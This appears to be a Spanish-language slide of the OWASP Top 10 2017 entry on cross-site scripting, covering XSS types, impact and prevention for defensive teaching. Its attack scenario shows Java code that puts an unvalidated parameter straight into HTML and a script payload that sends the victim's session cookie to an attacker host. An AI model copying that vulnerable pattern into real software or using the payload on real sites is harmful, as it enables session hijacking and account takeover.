

A7
:2017
# Cross-Site Scripting (XSS)
|  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- |
|  | Explotabilidad: 3 | Prevalencia: 3 | Detectabilidad: 3 | Técnico: 2 |  |
| Existen herramientas automatizadas que permiten detectar y explotar las tres formas de XSS, y también se encuentran disponibles kits de explotación gratuitos. |  | XSS es la segunda vulnerabilidad más frecuente en OWASP Top 10, y se encuentra en alrededor de dos tercios de todas las aplicaciones. Las herramientas automatizadas pueden detectar algunos problemas XSS en forma automática, particularmente en tecnologías maduras como PHP, J2EE / JSP, y ASP.NET. |  | El impacto de XSS es moderado para el caso de XSS Reflejado y XSS en DOM, y severa para XSS Almacenado, que permite ejecutar secuencias de comandos en el navegador de la víctima, para robar credenciales, secuestrar sesiones, o la instalación de software malicioso en el equipo de la víctima. |  |
¿La aplicación es vulnerable?
Existen tres formas usuales de XSS para atacar a los navegadores de los usuarios
XSS Reflejado: la aplicación o API utiliza datos sin validar, suministrados por un usuario y codificados como parte del HTML o Javascript de salida. No existe una cabecera que establezca la Política de Seguridad de Contenido (CSP). Un ataque exitoso permite al atacante ejecutar comandos arbitrarios (HTML y Javascript) en el navegador de la víctima. Típicamente el usuario deberá interactuar con un enlace, o alguna otra página controlada por el atacante, como un ataque del tipo pozo de agua, publicidad maliciosa, o similar.
XSS Almacenado: la aplicación o API almacena datos proporcionados por el usuario sin validar ni sanear, los que posteriormente son visualizados o utilizados por otro usuario o un administrador. Usualmente es considerado como de riesgo de nivel alto o crítico.
XSS Basados en DOM: frameworks en JavaScript, aplicaciones de página única o APIs incluyen datos dinámicamente, controlables por un atacante. Idealmente, se debe evitar procesar datos controlables por el atacante en APIs no seguras.
Los ataques XSS incluyen el robo de la sesión, apropiación de la cuenta, evasión de autentificación de múltiples pasos, reemplazo de nodos DOM, inclusión de troyanos de autentificación, ataques contra el navegador, descarga de software malicioso, keyloggers, y otros tipos de ataques al lado cliente.
Cómo se previene
Prevenir XSS requiere mantener los datos no confiables separados del contenido activo del navegador.
Utilizar frameworks seguros que, por diseño, automáticamente codifican el contenido para prevenir XSS, como en Ruby 3.0 o React JS.
Codificar los datos de requerimientos HTTP no confiables en los campos de salida HTML (cuerpo, atributos, JavaScript, CSS, o URL) resuelve los XSS Reflejado y XSS Almacenado. La hoja de trucos OWASP para evitar XSS tiene detalles de las técnicas de codificación de datos requeridas.
Aplicar codificación sensitiva al contexto, cuando se modifica el documento en el navegador del cliente, ayuda a prevenir DOM XSS. Cuando esta técnica no se puede aplicar, se pueden usar técnicas similares de codificación, como se explica en la hoja de trucos OWASP para evitar XSS DOM.
Habilitar una Política de Seguridad de Contenido (CSP) es una defensa profunda para la mitigación de vulnerabilidades XSS, asumiendo que no hay otras vulnerabilidades que permitan colocar código malicioso vía inclusión de archivos locales, bibliotecas vulnerables en fuentes conocidas almacenadas en Redes de Distribución de Contenidos (CDN) o localmente.
Ejemplos de escenarios de ataque
Escenario 1: la aplicación utiliza datos no confiables en la construcción del código HTML sin validarlos o codificarlos:
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
El atacante modifica el parámetro “CC” en el navegador por:
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'
Este ataque causa que el identificador de sesión de la víctima sea enviado al sitio web del atacante, permitiéndole secuestrar la sesión actual del usuario.
Nota: los atacantes también pueden utilizar XSS para anular cualquier defensa contra Falsificación de Peticiones en Sitios Cruzados (CSRF) que la aplicación pueda utilizar.
Referencias
OWASP
OWASP Proactive Controls: Encode Data
OWASP Proactive Controls: Validate Data
OWASP Application Security Verification Standard: V5
OWASP Testing Guide: Testing for Reflected XSS
OWASP Testing Guide: Testing for Stored XSS
OWASP Testing Guide: Testing for DOM XSS
OWASP Cheat Sheet: XSS Prevention
OWASP Cheat Sheet: DOM based XSS Prevention
OWASP Cheat Sheet: XSS Filter Evasion
OWASP Java Encoder Project
Externos
CWE-79: Improper neutralization of user supplied input
PortSwigger: Client-side template injection